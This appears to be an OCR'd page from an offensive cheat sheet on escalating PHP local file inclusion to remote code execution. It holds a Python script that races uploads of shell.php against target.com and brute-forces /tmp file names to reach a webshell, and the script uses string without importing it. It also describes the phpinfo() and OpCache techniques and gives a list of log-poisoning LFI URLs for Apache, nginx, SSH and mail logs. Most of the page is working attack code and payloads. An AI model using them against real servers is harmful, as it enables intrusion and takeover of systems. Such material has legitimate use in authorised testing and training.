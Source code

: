 ```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

If OpCache is enable, the cache of file can be found in  /var/www/cache/[system_id]/var/www/html/[file name].php.bin
For getting system_id, I used https://github.com/GoSecure/php7-opcache-override.
Example : https://vuln.live/blog/11


## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
